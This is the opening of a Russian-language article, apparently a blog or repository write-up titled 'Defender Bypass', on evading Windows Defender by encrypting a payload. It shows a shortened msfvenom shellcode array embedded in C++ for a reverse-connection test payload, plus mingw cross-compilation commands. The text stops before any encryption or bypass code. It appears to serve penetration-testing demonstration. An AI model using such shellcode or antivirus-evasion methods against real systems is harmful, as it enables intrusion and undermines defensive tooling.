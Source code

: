 # Defender Bypass
В наше время цифровая безопасность все более актуальна, поскольку важность защиты конфиденциальной информации и данных не может быть переоценена. Шифрование информации становится все более неотъемлемой частью нашей цифровой жизни, обеспечивая надежную защиту от несанкционированного доступа.

К сожалению, шифрование часто используется не только в хороших, но и плохих целях.

В данной статье рассмотрим, как технологии шифрования помогают в защите конфиденциальности и целостности данных, а также как современные средства безопасности могут оказаться недостаточными для полноценный защиты.

Мы проанализируем случай, когда использование шифрования стало ключевым элементом в обнаружении недостатка в работе средств защиты, и поймем почему так происходит.

### Примечание

В качестве примера, создал нагрузку, которая вызовет диалоговое окно с подтверждением активации обратного соединения, а также его прекращения.

Ниже представлен пример инициализации нагрузки посредством его внедрения в исполняемый код на языке С++.

``` c++
  unsigned char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
                              "\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
 .....................укороченная.версия...................
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x7c"
"\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";
```

### Основная часть

#### Генерация нагрузки

> В качестве инструмента для тестирования на проникновение, использовал `msfvenom`.

**Внимание!** Использование данного программного обеспечения возможно только с санкции пользователя и ни в каких других случаях невозможно!

Нагрузку я выбрал самую тривиальную. Ее использование детектится.

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/930/951/422/9309514221009d40ed03a2977f9be21a.png)

#### Упаковка

Для корректной упаковки, я использовал `x86_64-w64-mingw32-g++`

Установить его можно с помощью следующей команды:

```
apt install x86_64-w64-mingw32-g++
```

Тестовая сборка:

```
x86_64-w64-mingw32-g++ -o test.exe test.cpp
```
